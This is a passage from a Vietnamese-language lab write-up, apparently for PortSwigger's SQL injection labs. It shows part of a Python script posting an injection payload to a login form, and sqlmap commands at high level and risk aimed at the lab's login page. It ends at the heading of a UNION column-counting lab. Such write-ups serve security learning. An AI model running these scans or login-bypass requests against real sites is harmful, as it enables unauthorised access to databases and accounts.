 ```python
    'csrf' : csrf,
    'username' : payload,
    'password' : 'cuong',
}
response = session.post(
    url + "/login",
    data=data,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/Sk3T5Ejqp.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/H1jEnEjqp.png)

### SQLMAP

- mình đã làm lại bài này theo sqlmap

mình vào burp suite và chuột phải nhấn copy to file và dùng sqlmap để quét file này

![ảnh](https://hackmd.io/_uploads/BJfFLfX26.png)

mình quét file này với lệnh

```sql!
sqlmap -r sqlmap.txt --batch --threads=5 --level=5 --risk=3
```

hoặc mình có thể chuyển đổi sang method get và chạy trực tiếp

![ảnh](https://hackmd.io/_uploads/HkxVP5ShT.png)

```!
sqlmap -u "https://0a89002b043d719f826fabab00ff00b7.web-security-academy.net/login?csrf=X4iKC4ZlXkrkGlAJRHJSkWEHMknLb115&username=administrator&password=peteer" --batch
```

## 3. Lab: SQL injection UNION attack, determining the number of columns returned by the query

link: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

### Đề bài

![image](https://hackmd.io/_uploads/Bkqhfcj56.png)
